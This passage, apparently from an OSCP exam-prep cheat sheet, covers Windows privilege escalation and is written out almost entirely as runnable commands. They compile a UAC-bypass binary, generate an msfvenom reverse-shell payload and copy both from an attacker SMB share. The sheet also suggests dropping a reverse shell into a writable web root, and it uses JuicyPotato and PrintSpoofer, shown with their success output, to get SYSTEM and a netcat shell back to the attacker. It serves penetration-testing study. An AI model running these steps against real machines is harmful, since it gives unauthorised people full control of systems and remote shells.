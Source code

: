 STEP 2: Prepare exploits
```
# modify uac-bypass.c to execute reverse shell
# compile w/ correct architecture
$ x86_64-w64-mingw32-gcc ~/OSCP-2022/Tools/privesc-windows/uac-bypass.c -o uac-bypass.exe

# generate reverse shell payload
$  msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=[kali] LPORT=666 -f exe -o rshell.exe
```

STEP 3: Transfer, setup listener and exec payload
```
cmd> copy \\[kali]\[share]\uac-bypass.exe uac-bypass.exe
cmd> copy \\[kali]\[share]\rshell.exe rshell.exe
cmd> .\uac-bypass.exe
```

### File & Folder Permissions

Writable web root? Upload reverse shell -> navigate to file path
* Xampp: `C:\xampp\htdocs`
* IIS: `C:\inetpub\wwwroot` 
* etc.

### Access Token Abuse

Abuse is possible if `SeImpersonatePrivilege` or `SeAssignPrimaryPrivilege` is enabled
* Walkthrough: https://www.notion.so/CHEATSHEET-ef447ed5ffb746248fec7528627c0405#5cedd479d1c1429e8018211371eec1ad
* Windows CLSIDs: http://ohpe.it/juicy-potato/CLSID/

JuicyPotato - All older versions of Windows
```
# edit nc.bat with correct params and transfer to remote host
cmd> whoami /privs
cmd> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c

# Exploit failed - incorrect CLSID
Testing {4991D34B-80A1-4291-B697-000000000000} 443
COM -> recv failed with error: 10038

# Exploit worked - correct CLSID
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 443
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

PrintSpoofer - Windows 10 and Server 2016/2019
* Leverages the Print Spooler service to get a SYSTEM token, then run a custom command
```
# spawn a SYSTEM command prompt
cmd> printspoofer.exe -i -c cmd

# get a SYSTEM reverse shell
cmd> printspoofer.exe -c "C:\temp\nc.exe [LHOST] [LPORT] -e cmd.exe"
```
